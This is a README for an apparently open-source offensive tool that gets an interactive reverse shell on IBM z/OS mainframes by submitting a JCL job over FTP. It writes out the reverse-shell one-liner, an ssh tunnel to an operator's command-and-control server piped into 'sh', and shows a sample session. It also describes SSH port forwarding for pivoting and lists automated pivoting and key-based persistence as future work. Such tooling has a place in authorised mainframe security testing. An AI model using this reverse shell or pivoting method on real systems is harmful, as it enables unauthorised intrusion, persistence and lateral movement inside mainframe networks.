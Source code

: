 # zos-pivoting

Library set to get a secure reverse shell by submitting a JCL job via FTP on z/OS.

```
$ python ftp2shell.py config.ini
Input the password for zuser on target.mainframe.net:

Save the pulic key below in ~ccserveraccount/.ssh/authorized_keys

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+og7UDXjtluvauvB3Uo7eFqYGTDYlptkd[...]

Press Enter to continue...
mf.bigiron.local> uname
OS/390
mf.bigiron.local> exit
This will terminate the connection to mf.bigiron.local, are you sure? (y/N) y
```

The library contains:

 * `config.ini` a sample configuration file
 * `ftp2shell.py` the main script, it uses the config file and the next items
 * `zosutils/stdiotranscoder.py` wraps the stdin/stdout of a command and performs transparent re-encoding (EBCDIC to UTF8 or other encodings supported by python). In other words: makes nc/ncat support EBCDIC and other character encoding systems
 * `zosutils/zosftp.py` talks FTP and uses the extra features of the FTP server in z/OS
 * `zosutils/jcl.py` to generate JCL cards

The python files in the root of the project exhibit a lower coding quality than the others.

## Design
This project uses the new SSH stdin and stout redirection to get a fully interactive reverse shell on a mainframe.

Here is an example:

```
ssh -i $KEYNAME $CCU@$CCS -p $CCP -o UserKnownHostsFile=$KNOWNHOSTSFILE -o StrictHostKeyChecking=yes -N \
-W $NCIP:$NCP < $FIFONAME | sh -s > $FIFONAME 2>&1 & echo $STARTSEND > $FIFONAME'
```

SSH tunnels stdin and stdout, piping to a shell.
A FIFO file contains all the inputs and outputs to and from the shell.
Please note how awesome the strong host fingerprint checking and the key-based authentication are.

The same principle can be applied to other systems running SSH.

You have to do the cleanup by yourself.

Python >= 3.7 only.

## Requirements
You have to create a user in your machine to get the reverse connection on your `cc_server` (see the config file).
The user does not need an interactive shell.

## Dependencies
Python >= 3.7.

You can install the [ebcdic](https://pypi.org/project/ebcdic/) package to support more character encodings.

The default EBCDIC support in Python 3 should be enough most of the time.

## Usage:
 * Edit `config.ini`
 * Run `python ftp2shell.py config.ini`. The script will:
    - connect to the mainframe via FTP
    - generate and run a JCL batch
    - start an SSH connection against `cc_server` and start a tunneled clear-text shell
    - start the shell management
 * The resulting shell is a nearly full-featured SH shell.
The SSH tunnelling protects the shell.
 * There is a custom `_runssh` command which can be used to run further SSH commands.
Think port forwarding and that goodness.
For example, to get access to TN3270 on your localhost run:
```
mainframe> _runssh -R 2222:localhost:23
```
And then connect to localhost:2222.

## Future Steps
* Automate the pivoting by parsing the output of netstat/NETSTAT and:
    - ssh -R
    - ssh -L
    - starting a local sshd
* Persistence via SSH keys (?)
* Port to other systems

## Can't do on z/OS
* Cannot automate running custom sshd server:
    * sshd has no run permissions for users by default
    * copying the binary to another path will not work, as a daemon need to be marked as `program controlled`
    * ***z/OS 2.4 will probably get the latest and greatest OpenSSH with full `-R` support***
